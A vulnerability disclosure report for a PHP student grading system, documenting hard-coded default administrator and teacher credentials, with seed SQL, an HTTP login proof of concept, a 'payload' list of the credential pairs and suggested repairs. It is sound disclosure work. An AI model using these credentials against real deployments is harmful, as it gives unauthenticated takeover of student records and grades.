


# SourceCodester Student Grading System with Report Card and GWA 1.0 /login.php username= Use of Hard-coded Default Credentials

## Author

- (submitter name pending user confirmation — will be filled from vuldb.txt account at submission time)

## Vendor and Software Links

- https://www.sourcecodester.com/php/18870/student-grading-system-report-card-and-gwa-using-php-and-mysql-source-code.html
- https://www.sourcecodester.com/download-code?nid=18870

## Overview

- Student Grading System with Report Card and GWA (Using PHP and MySQL), version 1.0 (current public download, 2026-11), ships with three hard-coded accounts whose plaintext passwords are published in the product itself: an administrator `admin` / `admin123` and two teacher accounts `mreyes` / `teacher123`, `jdelacruz` / `teacher123`. The credentials are seeded in `database.sql`, and the login page prints them to every visitor. There is no forced password change on first login and no setup wizard that would rotate them, so every public deployment of this product starts its life with full administrator access available to anyone who reads the login screen.

## Details

- Vulnerable file: `/login.php` (accounts seeded in `database.sql`, advertised in `README.txt`)
- Affected version: 1.0 (current public download, 2026-11)
- The login form advertises the working credentials to every visitor:

```php
// login.php:38
<p class="muted small">Demo: admin / admin123 &middot; teacher: mreyes / teacher123</p>
```

- The same accounts are seeded with known bcrypt hashes in the shipped database dump:

```sql
-- database.sql:64-69
-- Default accounts: admin / admin123, mreyes / teacher123, jdelacruz / teacher123

INSERT INTO users (id, username, password_hash, full_name, role) VALUES
(1,'admin','$2y$10$hZPiqmUdKLKpJ1Q0U3kssuTOQFV7zgr61gBPtChe3VXdyymaGyKV2','System Administrator','admin'),
(2,'mreyes','$2y$10$woW9jEa3Xn6u26HbVDS8O.J6n0QEwgQqumhr1oJ8xUR2nkX.9.uAa','Maria Reyes','teacher'),
(3,'jdelacruz','$2y$10$woW9jEa3Xn6u26HbVDS8O.J6n0QEwgQqumhr1oJ8xUR2nkX.9.uAa','Jose Dela Cruz','teacher');
```

- `README.txt:26-29` repeats the accounts under "DEFAULT ACCOUNTS (change the passwords after the first login)", but nothing in the application enforces that change: `login.php:14-19` performs a normal `password_verify()` login and there is no first-login flag, no password-expiry, and no install step. The bcrypt hashes above correspond to the published passwords, so any deployment imported from the shipped dump — the documented setup path (README.txt:14-17, import database.sql) — contains live accounts with publicly known credentials.
- The `admin` account controls user management (`users.php`, require_admin), class/subject/student management, enrollment, and grade encoding for every class; the teacher accounts can encode grades in their own classes. Full account takeover of the administrator role is therefore available to any unauthenticated visitor.

## Description

- An unauthenticated attacker visits `/login.php`, reads the credentials printed at the bottom of the form, and signs in as the administrator. No exploit beyond reading the page is required. Because the shipped `database.sql` seeds these accounts and the application has no forced-rotation mechanism, every deployment that followed the documented installation has the same live administrator credentials. An attacker gains full control over student records, grades, report cards, and user accounts (an admin can create additional admin users via `users.php`).

## PoC

- Step 1 — the login page itself displays the working credentials (see Screenshots).
- Step 2 — sign in with the advertised administrator account (verified over HTTP, local deployment):

```
GET /login.php HTTP/1.1
Host: 127.0.0.1:8147

--- extract CSRF token from the form, then ---

POST /login.php HTTP/1.1
Host: 127.0.0.1:8147
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=<session>

username=admin&password=admin123&csrf=<token>
```

- Response (verbatim):

```
HTTP/1.1 302 Found
Location: index.php
```

- Following the redirect renders the administrator dashboard (`index.php`):

```
Welcome back, System Administrator. Grading weights: Prelim 30%, Midterm 30%, Finals 40% · Passing average: 75
```

  with the admin-only navigation (Subjects, Users) rendered in the top bar.

- Step 3 — the same works for the teacher account `mreyes` / `teacher123` (302 → index.php → "Welcome back, Maria Reyes", role shown as `(teacher)`).

## Payload

```
username=admin&password=admin123        -> admin account takeover
username=mreyes&password=teacher123     -> teacher account access
username=jdelacruz&password=teacher123  -> teacher account access
```

## Screenshots

- Login page printing the live credentials at the bottom of the form:



- Administrator dashboard after signing in with `admin` / `admin123` (top bar shows `System Administrator (admin)` and the admin-only Subjects/Users navigation):



## Evidence

- Complete HTTP exchanges (CSRF fetch, both logins, dashboard responses) are preserved in `poc/C1-default-creds.txt`.

## Suggested repair

1. **Remove the demo credentials from production code:** delete the hint line at `login.php:38` and the seed rows at `database.sql:66-69` (or ship the dump without the users table).
2. **Force credential rotation on first use:** add a `must_change_password` flag set on seeded accounts and redirect to a password-change page until cleared; refuse grade/user operations until rotated.
3. **Provide an install wizard** that creates the administrator account with operator-supplied credentials at setup time, instead of fixed seeds.
4. **Fail closed on known defaults:** at login, reject `admin123`/`teacher123` matches against a blacklist of shipped hashes and log the attempt.

## Dedup note

- NVD: keyword search "Student Grading System" returns 20 CVEs (checked 2026-11-10) — all target homonymous products (different vendors/codebases: rms.php/view_user.php/form137.php code family, Campcodes and CodeAstro variants) and all are SQL injection or XSS. None covers this product, and none is a credentials issue.
- VulDB: no entry for this product (name "Student Grading System with Report Card and GWA", author jaypabs). Site search was blocked by Cloudflare, so three independent search-engine index passes restricted to vuldb.com were used (product name with "Report Card"/"GWA"/author/nid variants) — all matches were the homonymous SQL injection / XSS products, no default-credentials entry (checked 2026-11-10).
